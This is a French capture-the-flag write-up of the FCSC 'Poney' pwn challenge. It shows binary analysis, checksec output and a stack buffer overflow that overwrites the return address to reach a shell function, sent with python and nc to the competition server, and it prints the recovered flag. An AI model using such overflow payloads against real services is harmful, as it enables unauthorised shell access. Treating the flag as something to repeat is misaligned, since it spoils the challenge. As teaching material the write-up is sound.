

# <center>Poney</center>

<center>



</center>

Pour commencer regardons déjà à quel type de fichier avons nous affaire.

    sayymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Poney$ file poney
    poney: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=06fdfc3c264bdc167a0855288210c06e16ce805e, not stripped

On a un executable en 64bits non strippé et linké dynamiquement.

OK maintenant que fait cet executable ?

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Poney$ ./poney 
    Give me the correct input, and I will give you a shell:
    >>> test

Il va juste demander un input et se refermer si celui-ci est faux alors ?

Désassemblons le pour voir tout ça de plus près

    pwndbg> disass main
    Dump of assembler code for function main:
       0x0000000000400689 <+0>:	push   rbp
       0x000000000040068a <+1>:	mov    rbp,rsp
       0x000000000040068d <+4>:	sub    rsp,0x20
       0x0000000000400691 <+8>:	lea    rdi,[rip+0xe0]        # 0x400778
       0x0000000000400698 <+15>:	call   0x400550
       0x000000000040069d <+20>:	lea    rdi,[rip+0x10c]        #     0x4007b0
       0x00000000004006a4 <+27>:	mov    eax,0x0
       0x00000000004006a9 <+32>:	call   0x400560
       0x00000000004006ae <+37>:	mov    rax,QWORD PTR [rip   +0x20095b]        # 0x601010 <stdout@@GLIBC_2.2.5>
       0x00000000004006b5 <+44>:	mov    rdi,rax
       0x00000000004006b8 <+47>:	call   0x400568
       0x00000000004006bd <+52>:	lea    rax,[rbp-0x20]
       0x00000000004006c1 <+56>:	mov    rsi,rax
       0x00000000004006c4 <+59>:	lea    rdi,[rip+0xea]        # 0x4007b5
       0x00000000004006cb <+66>:	mov    eax,0x0
       0x00000000004006d0 <+71>:	call   0x400570
       0x00000000004006d5 <+76>:	mov    eax,0x0
       0x00000000004006da <+81>:	leave  
       0x00000000004006db <+82>:	ret    
    End of assembler dump.

Ici on peut voir que 0x20 octets soit 32 en decimal vont être alloués.
On peut donc penser à un buffer overflow.

Checkons les securités ajoutés au binaire pour pendez à notre méthode d'exploitation.


    saymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Poney$ checksec poney
    [*] '/home/saymant/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Poney/poney'
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)

Donc NX (rend la stack non executable) est présent donc on ne peut déjà pas se contenter de mettre un shellcode sur la stack.

Essayons de voir ce qui constitue tous l'executable

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Poney$ objdump -d poney

    poney:     format de fichier elf64-x86-64
    
    ...

    0000000000400676 <shell>:
      400676:	55                   	push   %rbp
      400677:	48 89 e5             	mov    %rsp,    %rbp
      40067a:	48 8d 3d e7 00 00 00 	lea    0xe7 (%rip),%rdi        # 400768 <_IO_stdin_used+0x8>
      400681:	e8 d2 fe ff ff       	callq  400558   <.plt.got+0x8>
      400686:	90                   	nop
      400687:	5d                   	pop    %rbp
      400688:	c3                   	retq   

    ...

Mhhh ... cette fonction shell est sûrement très intéressante. Et si on essayait tout simplement de jump dessus ?

On est sur du 64 bits, avant tout mettons donc cette adresse en little endian 64 bits

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Poney$ python
    Python 2.7.13 (default, Sep 26 2018, 18:42:22) 
    [GCC 6.3.0 20170516] on linux2
    Type "help", "copyright", "credits" or "license"    for more information.
    >>> import pwn
    >>> pwn.p64(0x0000000000400676)
    'v\x06@\x00\x00\x00\x00\x00'
    >>> quit()

Bien, retenons l'adresse ```v\x06@\x00\x00\x00\x00\x00``` 

Bon rappelez vous, l'executable allouait 32 octets (le buffer), donc on aura juste à écrire sur 40 octets (buffer + RBP qui est sur 8 octets) pour remplir le buffer et ensuite pouvoir overwrite et réecrire RIP avec l'adresse de la fonction shell(). 

Notre payload devrait ressembler à ça :

```python -c 'print "A"*40 + "v\x06@\x00\x00\x00\x00\x00"' | nc challenges1.france-cybersecurity-challenge.fr 4000```

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Poney$ python -c 'print "A"*40 + "v\x06@\x00\x00\x00\x00\x00"' | nc challenges1.france-cybersecurity-challenge.fr 4000
    Give me the correct input, and I will give you a    shell:
    >>> ls
    ls
    :(

Hein ? Bizarrement ça devrait marcher :/. Essayons alors de bloquer l'execution avec la commande cat, la payload finale devrait alors ressembler à ça :

```(python -c 'print "A"*40 + "v\x06@\x00\x00\x00\x00\x00"'; cat) | nc challenges1.france-cybersecurity-challenge.fr 4000```

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/FCSC/Pwn/Poney$ (python -c 'print "A"*40 + "v\x06@\x00\x00\x00\x00\x00"'; cat) | nc challenges1.france-cybersecurity-challenge.fr 4000
    Give me the correct input, and I will give you a    shell:
    >>> ls
    flag
    poney
    cat flag
    FCSC    {725dd45f9c98099bcca6e9922beda74d381af1145dfce3b933 512a380a356acf}

Ah ouf ! Ça a bien l'air de marcher là.
